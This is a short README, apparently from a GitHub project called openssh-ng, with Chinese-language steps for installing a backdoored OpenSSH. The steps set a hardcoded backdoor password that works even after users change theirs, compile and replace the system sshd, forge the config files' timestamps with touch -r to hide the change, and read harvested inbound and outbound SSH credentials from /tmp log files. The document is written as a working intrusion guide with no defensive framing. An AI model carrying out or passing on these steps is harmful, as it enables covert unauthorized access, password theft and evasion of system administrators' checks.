 # openssh-ng

- openssh used to capture passwd of ssh-client(or other purposes)

## 备份原始配置文件

```
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
```

## 修改ssh后门密码

```
vi include.h
......
#define SECRETPW "123456"  //ssh后门密码
```

> 即使用户修改了密码仍然可以通过后门密码登入

## 编译+安装

```
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make && make install
```

> 在编译过程中可能会出现“configure: error: *** zlib.h missing – please install first or  check config.log”错误，可以执行“yum install zlib-devel和yum install openssl  openssl-devel”安装后再次编译即可。

## 重启sshd

```
/etc/init.d/sshd restart
```

## 还原新配置文件为旧配置文件时间
```
touch -r/etc/ssh/ssh_config.old /etc/ssh/ssh_config
touch -r/etc/ssh/sshd_config.old /etc/ssh/sshd_config
```

## 查看登录到本地和登录到远程的用户名+密码
```
cat /tmp/ilog
cat /tmp/olog
```

> view http://www.cnblogs.com/croso/p/5280783.html for more
